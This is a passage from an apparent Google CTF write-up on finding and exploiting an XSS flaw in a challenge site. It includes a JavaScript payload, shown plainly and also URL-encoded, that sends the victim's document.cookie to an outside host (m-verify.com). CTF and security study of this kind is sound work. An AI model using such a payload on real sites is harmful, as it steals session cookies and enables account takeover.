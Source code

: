 

### We have XSS!
Testing with a simple `console.log("hacked")` payload
![](https://github.com/d4rkm0de/GoogleCTF/blob/master/F91D4305-FE65-49D7-B2B5-28C609568828.png)
![](https://github.com/d4rkm0de/GoogleCTF/blob/master/6022E8FA-00C0-4450-9B8A-5E16C16A42C7.png)

You can see the message comes through so we now have javascript execution.
![](https://github.com/d4rkm0de/GoogleCTF/blob/master/45AA159A-7F89-4AA7-BF99-72479EF1165D.png)

But this is still coming from my client.

As noted in the source code, you need to issue a POST request with a valid reCapcha to have TJMike retrieve the contents server-side.

Javscript Payload
`content[]=;location='http://m-verify.com/hacked?flag='+document.cookie;//`

URL encode it
`content[]=%3b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%6d%2d%76%65%72%69%66%79%2e%63%6f%6d%2f%68%61%63%6b%65%64%3f%66%6c%61%67%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%2f%2f`

